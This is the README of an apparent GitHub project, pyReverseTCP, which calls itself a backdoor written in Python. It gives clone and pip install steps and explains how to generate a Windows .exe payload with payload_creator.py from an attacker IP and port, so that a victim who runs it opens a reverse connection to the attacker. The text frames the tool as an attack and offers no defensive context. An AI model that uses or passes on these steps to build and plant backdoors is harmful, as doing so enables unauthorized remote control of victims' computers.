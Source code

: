 # pyReverseTCP
### A backdoor program made entirely in python
## Installation
1. Cloning this repo
```
$ git clone https://github.com/Astrol99/pyReverseTCP.git
```
2. Install required dependencies

Go into repo directory first
```
$ cd pyReverseTCP/
```
Then use pip with provided requirements.txt with all dependencies listed
```
$ pip install -r requirements.txt
```
## Getting Started
### Making payload
In order to make a connection between you and the victim, the victim must run the payload. But to do that, you must first make a .exe program. A script called payload_creator.py has made this step autonomous, but needs two parameters, the attacker's IP and PORT
> Usage
```
python payload_creator.py <ATTACKER IP> <ATTACKER PORT>
```
> Example
```
python payload_creator.py 192.168.1.10 1234
```
